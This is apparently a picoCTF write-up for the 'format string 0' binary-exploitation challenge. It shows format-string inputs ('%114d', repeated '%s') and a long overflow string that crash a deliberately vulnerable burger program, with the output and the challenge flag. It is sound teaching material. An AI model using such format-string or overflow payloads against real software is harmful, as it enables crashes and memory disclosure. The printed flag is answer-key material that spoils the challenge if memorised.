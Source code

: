 ---
tags: [binary-exploitation]
---
# format string 0

- **Description:** Can you use your knowledge of format strings to make the customers happy?
- **Difficulty:** Easy

---

## 🔎 Solution
This challenge focuses on exploiting a format string vulnerability through the use of the `printf` function. 
The goal is to trigger a *segmentation fault* in the program, which leads to the flag being printed via a custom signal handler:
```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```
---
### Method 1: Bypassing Patrick and crashing Bob
Upon connecting to the server, you're first asked to recommend burgers for a customer named Patrick. 
The valid options are: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe

Looking at the function `serve_patrick()`, the program only proceeds to the next step (serving Bob) if the following condition is met:
```c
int count = printf(choice1);
if (count > 2 * BUFSIZE) {
    serve_bob();
}
```
Here, `BUFSIZE` is defined as 32, so `count` must be greater than 64 to reach `serve_bob()`.

Let's take a closer look at the input **Gr%114d_Cheese**. 
This includes a valid format specifier `%114d`, which tells `printf` to print an integer with a minimum field width of 114 characters. 
`printf` will fetch an integer from the stack (or register depending on architecture), and output it padded to 114 characters.

The actual length of the printed string becomes:
- "Gr" → 2 characters
- %114d → 114 characters
- "Cheese" → 6 characters

→ Total: 122 characters, well over the 64-character threshold.

This allows us to bypass Patrick successfully:
```
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
```

Now we must serve Bob, who accepts 3 burger names: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak

Examining the input **Cla%sic_Che%s%steak**, it contains 3 `%s` specifiers. 
When `printf()` encounters `%s`, it attempts to read a `char*` from the stack and then prints the string at that memory address. 
If these addresses are invalid or uninitialized, the result is a segmentation fault (`SIGSEGV`).

And since there's a signal handler in place for `SIGSEGV`, this crash reveals the flag:
```
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
---
### Method 2: Triggering a crash directly in Patrick's handler
Alternatively, the vulnerability can be exploited earlier  during Patrick's stage by overflowing the buffer directly.

In `serve_patrick()`, user input is stored using:
```c
char choice1[BUFSIZE];
scanf("%s", choice1);
```
Since there is no bounds checking, inputting a string longer than 32 characters will overflow the buffer and potentially corrupt adjacent memory, causing a segmentation fault. 
This again triggers the signal handler and prints the flag:
```
Enter your recommendation: abcdefghabcdefghabcdefghabcdefghabcdefghabcdefghabcdefghabcdefgh
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```

## 🚩Flag
> `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`
